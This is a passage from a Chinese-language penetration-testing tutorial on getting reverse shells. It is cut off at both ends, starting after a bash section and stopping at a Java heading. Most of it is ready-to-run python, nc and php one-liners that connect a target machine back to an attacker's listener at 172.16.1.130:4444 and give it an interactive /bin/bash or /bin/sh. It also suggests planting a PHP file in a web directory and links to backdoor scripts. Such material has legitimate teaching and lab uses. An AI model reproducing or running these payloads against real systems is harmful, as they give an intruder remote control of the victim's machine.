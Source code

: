 这两个都是bash根据Linux万物皆文件的思想衍生过来的，具体更多bash的玩法你可以参考

https://xz.aliyun.com/t/2549

### python

攻击机Kali还是监听

```bash
nc -lvvp 4444
```

centos执行

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.1.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

这个payload是反向连接并且只支持Linux，Windows可以参考离别歌师傅的 [python windows正向连接后门](https://www.leavesongs.com/PYTHON/python-shell-backdoor.html)

### nc

如果目标机器上有nc并且存在`-e`参数，那么可以建立一个反向shell

攻击机监听

```bash
nc -lvvp 4444
```

目标机器执行

```bash
nc 172.16.1.130 4444 -t -e /bin/bash
```

这样会把目标机的`/bin/bash`反弹给攻击机

但是很多Linux的nc很多都是阉割版的，如果目标机器没有nc或者没有-e选项的话，不建议使用nc的方式

### php

攻击机监听

```bash
nc -lvvp 4444
```

要求目标机器有php然后执行

```php
php -r '$sock=fsockopen("172.16.1.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

或者你直接在web目录写入一个php文件，然后浏览器去访问他就行了，这有一个[Linux和Windows两用的脚本](https://my.oschina.net/chinahermit/blog/144035)

### Java 脚本反弹
